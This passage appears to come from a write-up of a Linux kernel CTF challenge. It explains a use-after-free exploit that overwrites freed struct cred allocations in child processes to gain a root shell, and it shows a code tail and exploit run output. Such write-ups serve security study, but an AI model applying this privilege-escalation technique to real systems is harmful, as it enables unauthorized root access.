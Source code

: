 ```c 

    sleep(10000);
    return NULL;
}
```

We call `alloc_n_creds(uring_cred_dumps[1], 32)` to alloc 32 new `struct cred`s that will hopefully cause the page to be reallocated as a `struct cred` slab. Afterwards, we free all of them, and allocate a bunch of child processes. The cred allocations will be reused for their creds, after which point we can trigger the UaF write again and overwrite the creds to give us root! Each child process can then check their uid via `getuid()` and give us a root shell in case it returns `0`.

*Note bene: Technically the parent task could also have had its cred overwritten, so I should have checked there as well. */

The exploit completes in a few seconds and is quite reliable (though I could have done a few more optimizations!) The exploit will succeed about 50% of the time due to the alignment problem, but can be reran as it won't cause a crash.

```
~ $ ./pwn
[+] rlimit 7 increased to 4096userfaultfd initialized
[+] got userfault block 0 (addr 00007f8a4d7ab000)
[+] got userfault block 1 (addr 00007f8a4d7ac000)
unblocking 0x7f8a4d7ab000 (copying 0x1000 bytes from 0x7f8a4d7a9000)[+] note_edit() succeeded
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
529d1fb9167cb1a3
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000
```